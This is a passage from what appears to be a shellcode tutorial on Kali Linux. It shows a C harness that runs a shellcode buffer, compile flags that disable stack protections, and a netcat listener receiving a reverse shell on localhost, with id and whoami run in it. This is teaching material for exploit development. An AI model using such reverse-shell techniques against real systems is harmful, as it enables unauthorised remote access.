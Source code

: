 ```c
	printf("Shellcode Length:  %d\n", strlen(code));

	// convert the shellcode variable to a function
	int (*ret)() = (int(*)())code;

	// execute the shellcode
	ret();

}
```

We will use netcat to open a port on localhost:
```console
kali@kali:/tmp$ nc -lvnp 2222
listening on [any] 2222 ...

```

On another terminal, we will compile it and execute it:
```console
kali@kali:/tmp$ gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack
kali@kali:/tmp$ ./test_shellcode 
Shellcode Length:  95

```

Finaly, netcat can be used to access our shell:
```console
kali@kali:/tmp$ nc -lvnp 2222
listening on [any] 2222 ...
connect to [127.1.1.7] from (UNKNOWN) [127.0.0.1] 36240
id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
whoami
kali

```
